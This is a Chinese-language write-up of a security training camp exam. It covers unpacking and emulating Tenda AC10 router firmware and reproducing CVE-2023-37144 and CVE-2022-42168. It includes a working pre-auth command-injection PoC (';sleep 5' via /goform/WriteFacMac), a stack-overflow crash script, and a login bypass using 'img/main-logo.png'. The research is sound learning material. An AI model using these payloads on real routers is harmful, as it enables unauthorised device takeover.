## Introduction

這篇筆記是 2024 T5 Camp 的筆試題目以及解題的一些過程跟筆記，也就是 CVE-2023-37144 及 CVE-2022-42168 這兩個漏洞的相關研究及復現，後來也順利錄取並結訓了，但還抽不出時間寫結訓的心得跟專題，有空再來填坑 🫠

因為怕題目掛了，還是備份一下在這：

### Original Question

以下題組為對 Tenda 路由器和其一系列 [CVE](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=tenda) 的研究，包含韌體的解包和逆向、遠程服務的模擬、漏洞的分析和復現等。研究的目標設備為 Tenda AC10 v1.0，韌體版本 V15.03.06.23，可以從[官方載點](https://www.tendacn.com/download/detail-3105.html)下載。請回答下列問題，並匯整於一份報告中。


- 部份題目需要進行逆向分析並截圖，建議使用 IDA 或 Ghidra。
- 需要實作的題目請額外附上原始檔或腳本，並說明執行的方式和環境 (例如: 需安裝的套件或作業系統等)，若不易說明可以直接給 Dockerfile。
- 要分析的漏洞為 [CVE-2022-42168](https://nvd.nist.gov/vuln/detail/CVE-2022-42168) 和 [CVE-2023-37144](https://nvd.nist.gov/vuln/detail/CVE-2023-37144)，可以參考公開的分析文章。
- 報告最後請附上參考資料連結

### 1. 解包和逆向分析 (30%)

* 1.1 韌體解包 (5%)

下載該韌體檔 US_AC10V1.0RTL_V15.03.06.23_multi_TD01.bin，並解開內部包含的 squashfs 檔案系統，說明所用的工具和指令。

* 1.2 Web 服務分析 (10%)

找出負責響應 web 登入頁面/管理頁面 (下圖) 的服務和其主執行檔 (httpd)，並分析它的啟動流程，包含它和系統中其它服務 (daemon) 的執行順序或依賴關係、交互方式等。
    
* 1.3 漏洞和攻擊面分析 (15%)

自行查尋 CVE-2022-42168 和 CVE-2023-37144 的相關資訊，並在 httpd 中找出這兩個漏洞。請在逆向工具中截圖、給出漏洞所在的大概位址，並簡略說明這兩個漏洞的原因和觸發方式。例如: 需要送出的 HTTP request 為何? 是否需要多次交互?

此外，說明其他可能的攻擊面，特別是 pre-auth 的部份，即不需先登入即可觸發的攻擊面。例如: 特定的路徑或是 httpd 中某些函式。


### 2. Web 服務模擬實作 (30%)

使用 qemu-user 或 Qiling 等工具或框架，模擬運行上題中分析的 web 服務主程式 (httpd)。由於缺乏實際的硬體和 kernel，該 web 服務的主程式沒辦法完全直接執行，需要對該 binary 或相關的 shared library 進行修改。建議的方式為:
- 編譯並掛載一個 .so 檔，覆蓋某些 shared library 函式。由於該系統中的 ld-uClibc.so.0 不支援 LD_PRELOAD，因此需要以替換 library 的方式掛載，或重新編譯 ldso (見 bonus-1)。附件中有預先編譯好的 ld-uClibc.so.0 和 Makefile 範例，可以直接修改使用。（==請詳見 [ldso_tools.tar.xz](https://drive.google.com/drive/u/0/folders/1JzyKAkR2uohsg_uajW5iWFzkUcBLv96a) 檔案==）
- 直接對主程式或相關 library 進行 binary patch。
- 若使用 Qiling，可以用 address hook 修改其行為。

提示:
- 某些函式可以完全跳過 (直接返回常數)，會有部份功能受影響，但頁面顯示和有關前述 CVE 的部份還是可以運作
- Web 服務實際上需要跟其它 daemon 互動，可以直接 patch 掉這部份 (也可以同時運行其它 daemon 的模擬，但難度較高)
- 若使用 root 執行，需注意可能影響到真實系統。可以使用 unshare 或 chroot，或使用 docker 封裝整個環境。也可以修改 bind port (原為 80) 以避免 root 權限。
- 執行的輸出應該會出現 `"webs: Listening for HTTP requests at address {ip}:{port}"` 字樣，且能以瀏覽器開啟。使用 curl 測試時注意可能有 redirect 和 set-cookie 要處理，使用 python requests 的 Session 會比較方便。
- 由於預設為空白密碼，開啟時會跳過登入頁面直接顯示管理頁面。此為正常行為。

Bonus-1 (+10%)

自行編譯 ld-uClibc.so.0，可以參考其 SoC 之 [SDK](https://github.com/AskeyDB40/RTL8197_3411D_2) 中 uclibc 的設定參數。請在報告中寫出方法、指令等。

Bonus-2 (+10%)

使模擬的 web 服務需要登入。瀏覽器首次開啟時會顯示登入頁面，輸入正確密碼後才進入管理頁面。此外，請給出能以正確帳號密碼登入的測試腳本。

提示:
- 較容易實作的方式是 patch/hook httpd 取得帳密設定的程式邏輯，直接回傳固定的 username 和 password hash。
- 正確的 hash 值可以分析 binary 後計算或直接 sniff web request 來取得。

### 3. 漏洞利用實作 (40%)

以下漏洞利用的實作，評分標準包含腳本的完成度，和能否完整模擬並驗證 PoC 或 exploit 的運作。Demo 部份，附上執行模擬器和腳本的步驟，並對執行的結果截圖即可。此外，如果前一大題沒有完成，可以撰寫只模擬目標漏洞函式的程式來做測試。

#### 3.1 Exploit CVE-2023-37144 (15%)

撰寫一份 CVE-2023-37144 的概念驗證腳本或程式 (PoC):

- 請選擇能「遠端」驗證是否執行成功的 shell command(s)，並透過該漏洞來執行。
- 可以假設已知登入帳密或不需登入。
- 如果可行，使用前面完成的 web 服務模擬，來進行 demo，包含前述遠端驗證的部份。


#### 3.2 Exploit CVE-2022-42168 (25%)

撰寫一份 CVE-2022-42168 的利用腳本或程式 (exploit):

- 需要能執行任意 shell command (RCE)。
- 可以假設已知登入帳密或不需登入。
- 嘗試只使用 binary 中的 ROP gadgets，即: 假設 shared library、stack、heap 等會受 ASLR 影響，只使用具固定位址的 gadgets。
- 如果可行，使用前面完成的 web 服務模擬，來進行 demo。
    
Bonus-3 (+10%)

上述的漏洞都需要先登入才能觸發，因此只是 post-auth，實際上的影響並不大。但只要有能取得密碼或繞過登入驗證的漏洞就可以串接成 pre-auth RCE。已知此韌體版本存在能繞過登入驗證的 CVE 漏洞，請嘗試找到它並將上面的 PoC/exploit 實作為 pre-auth RCE。

如果模擬的 web 服務具有登入功能，請用它來 demo 改良後的 PoC/exploit。

---

看完了題目，接下來是我的解題過程，雖然完成度不高，但還是幸運錄取了 XD

## 1. 解包和逆向分析

### 1.1 韌體解包

首先用 binwalk 就可以簡單解出 filesystem：

```shell!
$ binwalk US_AC10V1.0RTL_V15.03.06.23_multi_TD01.bin -e 
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10328         0x2858          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 7070932 bytes
1068530       0x104DF2        MySQL ISAM index file Version 6
...
...
2105426       0x202052        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3700854 bytes, 810 inodes, blocksize: 131072 bytes, created: 2038-04-24 02:46:24
```



### 1.2 Web 服務分析

經過分析後可以得出大致流程（詳細研究過程可見 2.）：

1. 檢查網路及其他一些設定
2. 讀設定檔並進行一些初始化設定（推測是用 cfm 的 daemon 去讀 `/webroot/default.cfg` 這個檔案，不過靜態逆向看不太出來）
3. 啟動 socket server

另外也可從 `main()` 中看出相依的 daemon 為 `bin/cfmd`。

再來，我們也可從名稱猜出以下這些都是相依的 daemon：

- `bin/dhcpcd`
- `bin/dttpd`
- `bin/l2tpd`
- `bin/miniupnpd`
- `bin/p910nd`
- `bin/pppd`
- `bin/pptpd`
- `bin/wscd`
- `bin/xl2tpd`

### 1.3 漏洞和攻擊面分析

#### CVE-2022-42168

閱讀完 [3.] 的報告後，研究一下 code，可以看到 `fromSetIpMacBind()` 中，使用者可控的 `list` 會被 copy 到 `mib_buf` 中，且沒有做長度檢查；不過由於需要 cookie 驗證，因此是個 post-auth 的漏洞，理論上也只需要一次 request 就可以 成功 RCE，但我們還需要找到繞過驗證的方式才可以善加利用它。



接著確認一下 `mib_buf` 的長度，僅為 0x80，因此可以看出這是一個 stack overflow 的漏洞。


#### CVE-2023-37144

閱讀完 [1.] 的報告後，發現這是個超級簡單的 command injection，沒有防禦也沒有限制，所以這個漏洞只需要一個簡單的 GET request，不過由於與前一個一樣是需要驗證的 API，因此一樣暫時為 post-auth 的漏洞。

再來研究一下 code：



再追到 `lib/libcommon.so`：



可以看出由於直接將 `pcVar1` 當成參數傳入 `doSystemCmd()`，所以造成 command injection。

## 2. Web 服務模擬實作

先嘗試把 httpd 跑起來看看：

```
$ sudo chroot ./ ./qemu-mipsel-static ./bin/httpd 
init_core_dump 1917: rlim_cur = 0, rlim_max = 0
init_core_dump 1926: open core dump success
/bin/sh: can't create /proc/sys/kernel/core_pattern: nonexistent directory
init_core_dump 1935: rlim_cur = 5242880, rlim_max = 5242880


Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
Read hw setting header failed!
Invalid hw setting signature [sig=]!
Initialize AP MIB failed !
```

發現不意外的跑不起來，所以我們先照他的錯誤訊息建立一下資料夾 `/proc/sys/kernel`；另外，IoT 一定會做一些 peripherals 的檢查，所以我們需要先 patch 一下 binary 繞過，總之先研究一下 decompile 出來的 code，大概可以猜到這三個部分是需要 patch 的 validation。

下圖是已經 patch 完成的 code，只要簡單的將 asm 換成相反的邏輯就可以，例如：`bne` 換成 `beq`、`bgtz` 就換成 `blez`。





一樣可以對照一下 decompile 的 code：



再跑一次就可以成功執行了！發現又缺少兩個資料夾，所以我們先建立資料夾 `/etc`、`/proc/sys/net/ipv4`。

```shell!
$ sudo chroot ./ ./qemu-mipsel-static ./bin/httpd_patched
init_core_dump 1917: rlim_cur = 0, rlim_max = 0
init_core_dump 1926: open core dump success
init_core_dump 1935: rlim_cur = 5242880, rlim_max = 5242880


Yes:

      ****** WeLoveLinux****** 

 Welcome to ...
Read hw setting header failed!
Invalid hw setting signature [sig=]!
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
create socket  fail -1
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
connect: No such file or directory
Connect to server failed.
/bin/sh: can't create /etc/httpd.pid: nonexistent directory
/bin/sh: can't create /proc/sys/net/ipv4/tcp_timestamps: nonexistent directory
[httpd][debug]----------------------------webs.c,157
httpd listen ip = 255.255.255.255 port = 80
webs: Listening for HTTP requests at address 80.0.0.0
```

完成之後發現他 listen 的 ip 也爛掉了，所以我們繼續閱讀 `main()` 看能不能找到一些線索。發現這邊很像初始化 IP 的部分，他以 `br0IP` 這個變數當作名字，並且會指定給 `g_lan_ip`，因此我們推測他是會去抓 `br0` 這張網卡的 IP，所以可以直接新增一張網卡來測試一下。



```shell!
$ sudo brctl addbr br0
$ sudo ifconfig br0 192.168.88.131/24
```

加完網卡後再跑一次，發現在前面的 check 卡住了，推測是剛剛把邏輯寫成相反的，結果加網卡後成功讀取，反而卡在前面 `check_network()` 的地方了，所以把剛剛的 `blez` 直接 patch 成 `b`。



Patch 完就可以看到正常執行，並且也 listen 在正確的 IP 上了👍



直接用 browser 開看看，發現還是有錯誤。



突然想起剛剛 binwalk 解開的時候有警告說部分的 soft link 自動改到 `/dev/null` 了，可能就是因為這樣所以才會顯示 page not found。



嘗試建立一個 `webroot` 並 soft link 到 `webroot_ro` 看看：

```shell!
$ ln -s webroot_ro webroot
```

成功看到畫面！


另外沿著前面的 `main` 一路追進去也可以看到 `websOpenListen()` 這個負責在前面指定的 port 上 listen socket 的 function。



## 3. 漏洞利用實作

### 3.1 Exploit CVE-2023-37144

此 POC 不需登入帳密，可見 "Post-auth to Pre-auth" 部分；也可從 script 中看到，request 本身沒有攜帶 cookie 也可執行成功，因此得知此 POC 為 pre-auth RCE。

```python=
import sys
from pwn import *

context.log_level = 'error'

HOST = sys.argv[1]
PORT = 80
PATH = 'GET /goform/WriteFacMac?a=img/main-logo.png' 

if len(sys.argv) < 2 or len(sys.argv) > 3:
    print(f"Usage: {sys.argv[0]} <HOST> [PORT]")
    sys.exit(1)

if len(sys.argv) == 3:
    PORT = int(sys.argv[2])

# get standard response time

start_time = time.time()

r = remote(HOST, PORT)
r.send(
    f"{PATH} HTTP/0.9 \r\n HOST: {HOST} \r\n\r\n".encode()
)
r.recvall()
r.close()

end_time = time.time()
standard_time = end_time - start_time

# try to execute command

start_time = time.time()

r = remote(HOST, PORT)
r.send(
    f"{PATH}&mac=;sleep%205 HTTP/0.9 \r\n HOST: {HOST} \r\n\r\n".encode()
)
recv = r.recvall()
r.close()

end_time = time.time()
command_time = end_time - start_time

# validate the vulnerability

if recv == b"modify mac only." and command_time - standard_time > 5:
    print("[+] The target seems vulnerable")
else:
    print("[-] The target seems not vulnerable")
```

執行結果如下：

```shell!
$ python3 -m pip install --upgrade pwntools # if you don't install yet
$ python3 ci.py 192.168.88.130 80
[+] The target seems vulnerable
```

也可以手動執行：



並到 server 端查看訊息來驗證：



### 3.2 Exploit CVE-2022-42168

這邊先使用以下 POC 嘗試讓 server crash：

```python3!
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.88.130'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x10000
p2 = b'list=' + p1

p3 = b"POST /goform/SetIpMacBind?a=img/main-logo.png" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.88.131" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

但發現 server 端並不會出現 segmentation fault 或 crash 的情況，猜測是 server 為 user-mode 所模擬的，並沒辦法完整複製 router 的行為導致沒辦法成功複現。

```shell
$ python3 so.py
HTTP/1.1 200 OK
Content-type: text/plain; charset=utf-8
Pragma: no-cache
Cache-Control: no-cache

{"errCode":0}
```

### Bonus-3. Post-auth to Pre-auth

參考 [2.] 的報告，由於 `R7WebsSecurityHandler()` 這裡的邏輯有漏洞，可以簡單地繞過驗證。從下圖中可以看出，router handler 的檢查是只要在 url 裡發現有 `img/main-logo.png` 的字串，不管在哪個位置都會略過登入的驗證，因此我們只要構造類似 `http://{server}/some/login/required/path?a=img/main-logo.png` 的封包，就可以在不影響我們原有的 POC 情況下直接達成 Pre-auth RCE。




## Ref.

1. [Tenda AC10 (V15.03.06.26) has an command injection vulnerability](https://github.com/DaDong-G/Vulnerability_info/blob/main/ac10_command_injection/Readme.md)
2. [CVE-2021-44971 bypass_auth](https://github.com/21Gun5/my_cve/blob/main/tenda/bypass_auth.md)
3. [Tenda AC10V15.03.06.23 Stack overflow vulnerability](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromSetIpMacBind/readme.md)
